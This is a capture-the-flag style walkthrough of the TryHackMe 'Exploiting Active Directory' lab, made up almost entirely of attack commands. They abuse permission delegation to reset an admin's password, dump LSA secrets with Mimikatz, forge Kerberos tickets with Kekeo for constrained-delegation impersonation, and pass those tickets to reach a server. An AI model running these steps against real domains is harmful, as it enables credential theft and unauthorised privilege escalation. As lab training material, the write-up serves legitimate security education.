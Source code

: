 # Exploiting Active Directory

**Room Link:** [https://tryhackme.com/room/exploitingad](https://tryhackme.com/room/exploitingad)

## Introduction

**Kali**

```
systemd-resolve --interface exploitad --set-dns $THMDCIP --set-domain za.tryhackme.loc
nslookup thmdc.za.tryhackme.loc 
```



<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh za.tryhackme.loc\$VICTIM_USERNAME@thmwrk1.za.tryhackme.loc
```

## Exploiting Permission Delegation

**Kali**

```
neo4j console start
```

**Kali**

```
bloodhound --no-sandbox
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>



**Victim(powershell)**

```
powershell
Add-ADGroupMember "IT Support" -Members "$VICTIM_USERNAME"
Get-ADGroupMember -Identity "IT Support"
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

### ForceChangePassword

Now that we are a member of the _IT Support_ group, we have inherited the ForceChangePassword Permission Delegation over the _Tier 2 Admins_ group. First, we need to identify the members of this group to select a target. We can use the Get-ADGroupMember cmdlet again to assist with this:

**Victim(powershell)**

```
Get-ADGroupMember -Identity "Tier 2 Admins"
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**Victim(powershell)**

```
$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force 
Set-ADAccountPassword -Identity "t2_henry.harvey" -Reset -NewPassword $Password 
```

**Note:** If you get an Access Denied error, your permissions have not yet propagated through the domain. This can take up to 10 minutes. The best approach is to terminate your SSH or RDP session, take a quick break, and then reauthenticate and try again. You could also run `gpupdate /force` and then disconnect and reconnect, which in certain cases will cause the synchronisation to happen faster.

**Kali**

```
ssh t2_henry.harvey@thmwrk1.za.tryhackme.loc
Password: New.Password.For.User
```

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

## Exploiting Kerberos Delegation

### Constrained Delegation Exploitation

We will exploit Constrained Delegation for this task. The first thing we need to do is enumerate available delegations. Let's use our new privileged user for the network couple of commands. We can use the Get-NetUser cmdlet of PowerSploit for this enumeration by running the following command.

**Victim(powershell)**

```
powershell
Import-Module C:\Tools\PowerView.ps1 
Get-NetUser -TrustedToAuth
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Based on the output of this command, we can see that the svcIIS account can delegate the HTTP and WSMAN services on THMSERVER1. You would think that this means we can only access websites on behalf of impersonated users. However, PowerShell Remoting uses the HTTP and WSMAN services as well. The ideal option would be to impersonate a Tier 1 Admin since this would provide us with administrative access over THMSERVER1.

If you were to perform proper post-exploitation enumeration of THMWRK1, you would find that there is a service on the host running as the svcIIS user. Since we have administrative access now, we can use this to dump LSASecrets, part of the Windows Registry Hive where credentials are stored for features such as Windows services. Let's use [Mimikatz](https://github.com/gentilkiwi/mimikatz/security) to dump the secrets.

**Victim(powershell)**

```
C:\Tools\mimikatz_trunk\x64\mimikatz.exe
```

**Victim(mimikatz)**

```
token::elevate
lsadump::secrets
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

Let's run through the two commands:

* token::elevate - To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.
* lsadump::secrets - Mimikatz interacts with the registry hive to pull the clear text credentials.

Now that we have access to the password associated with the svcIIS account, we can perform a Kerberos delegation attack. We will use a combination of [Kekeo](https://github.com/gentilkiwi/kekeo) and [Mimikatz](https://github.com/gentilkiwi/mimikatz/security). You can use another window for Mimikatz, but make sure to exit out of Mimikatz after the `token::elevate` command, otherwise the tickets will be loaded in the wrong context later on. We will use Kekeo to generate our tickets and then use Mimikatz to load those tickets into memory. Let's start by generating the tickets:

**Victim(powershell)**

```
C:\Tools\kekeo\x64\kekeo.exe
```

**Victim(kekeo)**

```
tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Parameters explained:

* user - The user who has the constrained delegation permissions.
* domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
* password - The password associated with the svcIIS account.\


Now that we have the TGT for the account that can perform delegation, we can forge TGS requests for the account we want to impersonate. We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1:

**Victim(kekeo)**

```
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.l
oc

exit
```

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Parameters explained:

* tgt - We provide the TGT that we generated in the previous step.
* user - The user we want to impersonate. Since t2\_ accounts have administrative access over workstations, it is a safe assumption that t1\_ accounts will have administrative access over servers, so choose a t1\_ account that you would like to impersonate.\

* service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service.

Run the command again, this time for the WSMAN service. Now that we have the two TGS tickets, we can use Mimikatz to import them:

**Victim(powershell)**

```
C:\Tools\mimikatz_trunk\x64\mimikatz.exe
```

**Victim(mimikatz)**

```
privilege::debug
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
exit
```

**Victim(powershell)**

```
klist
New-PSSession -ComputerName thmserver1.za.tryhackme.loc
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Victim(powershell)**

```
Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>





